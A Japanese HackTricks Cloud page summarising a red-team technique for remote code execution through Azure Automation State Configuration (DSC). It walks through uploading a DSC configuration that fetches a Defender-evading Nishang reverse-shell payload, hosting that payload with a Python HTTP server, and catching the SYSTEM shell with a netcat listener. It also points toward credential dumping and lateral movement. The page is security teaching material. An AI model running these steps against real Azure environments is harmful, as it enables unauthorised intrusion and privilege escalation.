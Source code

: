 # Az - State Configuration RCE

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

**完全な投稿を確認: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### リモートサーバー（C2）インフラストラクチャの準備と手順の要約

#### 概要
このプロセスは、Windows Defender をバイパスするために設計された `RevPS.ps1` という名前の変更された Nishang `Invoke-PowerShellTcp.ps1` ペイロードをホストするリモートサーバーインフラストラクチャを設定することを含みます。このペイロードは、IPが `40.84.7.74` のKali Linuxマシンから単純なPython HTTPサーバーを使用して提供されます。この操作は、次の手順を通じて実行されます:

#### ステップ1 — ファイルの作成
- **必要なファイル:** 2つのPowerShellスクリプトが必要です:
1. `reverse_shell_config.ps1`: ペイロードを取得して実行する望ましい状態構成（DSC）ファイル。[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)から入手できます。
2. `push_reverse_shell_config.ps1`: 構成をVMに公開するスクリプト。[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)で入手できます。
- **カスタマイズ:** これらのファイル内の変数とパラメータは、リソース名、ファイルパス、サーバー/ペイロード識別子など、ユーザー固有の環境に合わせて調整する必要があります。

#### ステップ2 — 構成ファイルの圧縮
- `reverse_shell_config.ps1` を `.zip` ファイルに圧縮して、Azure Storage Account に転送する準備を整えます。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### ステップ3 — ストレージコンテキストの設定とアップロード
- 圧縮された構成ファイルは、AzureのSet-AzStorageBlobContentコマンドレットを使用して、事前定義されたAzure Storageコンテナであるazure-pentestにアップロードされます。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### ステップ 4 — Kaliボックスの準備
- Kaliサーバーは、GitHubリポジトリからRevPS.ps1ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
#### ステップ5 — 設定ファイルの公開
- 設定ファイルが実行され、逆シェルスクリプトが指定された場所に展開されます。

#### ステップ6 — ペイロードのホスティングとリスナーの設定
- Python SimpleHTTPServerを起動してペイロードをホストし、Netcatリスナーを設定して着信接続をキャプチャします。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 予定されたタスクはペイロードを実行し、SYSTEMレベルの特権を獲得します。

#### 結論

このプロセスの成功した実行は、資格情報のダンプや複数のVMへの攻撃の拡大など、さまざまな行動の可能性を開きます。このガイドは、Azure Automation DSCの領域での継続的な学習と創造性を奨励しています。

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする**
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
